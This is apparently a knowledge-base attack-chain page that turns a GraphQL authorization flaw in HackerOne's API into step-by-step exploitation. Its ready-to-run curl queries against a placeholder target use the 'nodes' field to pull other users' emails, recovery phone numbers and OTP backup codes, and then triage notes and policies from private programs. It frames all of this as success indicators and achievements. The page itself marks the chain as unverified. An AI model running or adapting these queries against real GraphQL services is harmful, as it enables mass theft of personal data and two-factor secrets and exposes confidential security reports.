

# GraphQL Nodes Field Bypass for Unauthorized Access to User PII and Program Metadata

Multi-stage attack chain demonstrating exploitation of broken access controls in HackerOne's GraphQL endpoint, where the 'nodes' field on connection types bypasses attribute-level authorization, allowing disclosure of sensitive user PII and limited program metadata.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform with GraphQL API
- Services: GraphQL endpoint (e.g., /graphql)
- Tech stack: Ruby on Rails with graphql-ruby gem, ActiveRecord ORM
- Network access: Authenticated access to the GraphQL endpoint (e.g., valid session cookie)

### Initial Access Requirements

- Valid user authentication to the target application
- Knowledge of GraphQL schema (e.g., via introspection or documentation)
- No elevated privileges needed beyond basic user access

## Detailed Attack Procedures

### Step 1: Bypass Authorization on Users Connection
procedure: [[procedures/Bypass-GraphQL-Authorization-Using-Nodes-Field-on-Users]]

**Objective**: Exploit the 'nodes' field to directly access unscrubbed user attributes, bypassing the authorized 'edges' path that applies attribute-level authorization.

**Instructions**: Authenticate to the target and send a GraphQL query using the 'nodes' field on the users() connection to retrieve sensitive fields like email and phone numbers. Use [[commands/graphql-vulnerable-users-nodes-query]] to test the bypass:

```bash
curl -X POST https://target.com/graphql -H "Content-Type: application/json" -H "Cookie: session=your_session" -d '{"query": "query { users() { nodes { email account_recovery_phone_number otp_backup_codes } } }"}'
```

Validate by comparing to the secure 'edges' query using [[commands/graphql-secure-users-edges-query]]:

```bash
curl -X POST https://target.com/graphql -H "Content-Type: application/json" -H "Cookie: session=your_session" -d '{"query": "query { users() { edges { node { email } } } }"}'
```

**Expected Output**: The 'nodes' query returns raw JSON with unscrubbed sensitive data (e.g., full emails, phone numbers), while 'edges' returns scrubbed or empty values.

**Success Indicators**:
- Unauthorized sensitive fields (e.g., email, OTP codes) appear in response
- No authorization errors; data from multiple users returned

### Step 2: Extract Metadata from Additional Connections
procedure: [[procedures/Extract-Sensitive-Metadata-from-Teams-and-Reports]]

**Objective**: Extend the bypass to teams() and reports() connections to disclose program-specific metadata like policies, triage notes, and SLAs.

**Instructions**: Build on the initial query by targeting additional connections with the 'nodes' field. Use [[commands/graphql-extensive-user-pii-query]] as a base and extend it, or craft a new query:

```bash
curl -X POST https://target.com/graphql -H "Content-Type: application/json" -H "Cookie: session=your_session" -d '{"query": "query { teams() { nodes { policy triage_note } } reports() { nodes { reference sla } } }"}'
```

**Expected Output**: JSON response containing confidential metadata (e.g., triage notes, policies) from private programs, limited by schema but exposing select attributes.

**Success Indicators**:
- Metadata from restricted programs retrieved
- No schema errors; fields like triage_note populated

## Attack Chain Summary

### Key Achievements

1. Bypassed attribute-level authorization in GraphQL connections
2. Disclosed PII for multiple users (emails, phones, OTP codes)
3. Accessed limited program metadata (policies, triage notes)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Account Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
